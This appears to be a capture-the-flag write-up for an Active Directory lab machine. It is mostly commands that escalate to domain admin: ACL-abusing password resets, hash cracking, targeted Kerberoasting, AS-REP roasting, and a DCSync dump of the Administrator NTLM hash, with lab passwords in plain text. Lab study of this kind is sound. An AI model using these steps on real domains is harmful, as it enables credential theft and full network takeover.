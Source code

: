 bloodhound-python -u Olivia -p ichliebedich -ns 10.10.11.42 -d administrator.htb -c All
![[Pasted image 20250128140853.png]]
change password for michael
bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.10.11.42" set password "Michael" "12342134"

![[Pasted image 20250128140921.png]]

bloodyAD -u "Michael" -p "12341234" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12341234"

then we login into ftp and get file Backup.psafe3
pwsafe2john Backup.psafe3 > psafe.hash
john psafe.hash --wordlist=/home/kali/Downloads/rockyou.txt
password for our backupfile - tekieromucho

we found 3 credentials with member of group domain admins
![[Pasted image 20250128144315.png]]
but emily have genericwrite acl on ethan, ethan can dcsync on domain administrator.htb, so this more interesting target
![[Pasted image 20250128144442.png]]


![[Pasted image 20250128144605.png]]

*Evil-WinRM* PS C:\Users\emily\Documents> Set-DomainObject Ethan -Set @{serviceprincipalname='ops/whatever1'}

python3 GetUserSPNs.py -dc-ip 10.10.11.42 ADMINISTRATOR.HTB/emily -request-user Ethan
but its not working :( or i need to add parametr output file i dunno 

second method 
bloodyAD -u "Emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --host "10.10.11.42" add uac Ethan -f DONT_REQ_PREAUTH

python3 GetNPUsers.py ADMINISTRATOR.HTB/Emily -format hashcat -outputfile ls.txt
its work, we get password for ethan
limpbizkit

then we use DCSync atack to take ntlm hashes
python3 secretsdump.py 'ADMINISTRATOR.HTB'/Ethan:limpbizkit@10.10.11.42
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
